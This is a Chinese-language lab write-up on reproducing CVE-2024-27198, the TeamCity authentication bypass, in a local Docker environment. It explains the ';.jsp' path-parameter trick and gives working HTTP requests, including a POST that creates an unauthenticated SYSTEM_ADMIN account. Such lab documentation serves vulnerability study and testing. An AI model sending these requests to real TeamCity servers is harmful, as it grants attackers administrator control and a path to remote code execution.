


# JetBrains TeamCity认证绕过漏洞（CVE-2024-27198）

[JetBrains TeamCity](https://www.jetbrains.com/teamcity/)是一个通用的CI/CD软件平台，支持灵活的工作流、团队协作和开发实践。

CVE-2024-27198是一个影响JetBrains TeamCity On-Premises 2023.11.4之前所有版本的严重认证绕过漏洞。该漏洞存在于`BaseController`类中，其`updateViewIfRequestHasJspParameter()`方法会读取`jsp`查询参数并将其设置为请求转发的视图名称。攻击者可以请求任意不存在的URL（触发404响应），并在`jsp`参数中指向一个受保护的REST API端点，同时添加`;.jsp`后缀。分号在Servlet规范中作为路径参数分隔符——应用服务器在解析路径时会去除分号后的所有内容，但原始字符串仍然能通过`.jsp`后缀验证检查。这使得攻击者无需认证即可访问任意内部REST API端点，从而创建管理员账户并实现远程代码执行。

参考链接：

- <https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/>
- <https://blog.jetbrains.com/teamcity/2024/03/additional-critical-security-issues-affecting-teamcity-on-premises-cve-2024-27198-and-cve-2024-27199-update-to-2023-11-4-now/>
- <https://nvd.nist.gov/vuln/detail/cve-2024-27198>

## 环境搭建

执行如下命令启动TeamCity 2023.11.3服务器：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8111`并接受许可协议即可完成初始化。



## 漏洞复现

该漏洞的核心是利用路径参数技巧绕过TeamCity的认证机制。通过请求一个不存在的URL，并在`jsp`查询参数中指向受保护的REST API端点并添加`;.jsp`后缀，服务器会在无需认证的情况下将请求转发到内部端点。URL模式为`http://your-ip:8111/<不存在的路径>?jsp=/app/rest/<端点>;.jsp`。

首先，在不提供任何凭据的情况下访问服务器信息端点来验证漏洞是否存在：

```
GET /hax?jsp=/app/rest/server;.jsp HTTP/1.1
Host: your-ip:8111
```

如果服务器存在漏洞，将会在无需认证的情况下返回TeamCity服务器的详细信息，包括版本号和构建日期等。



接下来，利用认证绕过漏洞创建一个拥有全局`SYSTEM_ADMIN`角色的新用户。发送如下请求，JSON请求体中指定新管理员账户的信息：

```
POST /hax?jsp=/app/rest/users;.jsp HTTP/1.1
Host: your-ip:8111
Content-Type: application/json

{"username": "hacker", "password": "hacker", "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}}
```

服务器将返回新创建用户的详细信息，确认已在无需任何认证的情况下成功创建了管理员账户。攻击者现在可以使用`hacker:hacker`凭据登录TeamCity并执行任意管理操作，包括管理构建配置、获取服务器中存储的密钥信息，以及上传恶意插件来实现远程代码执行。


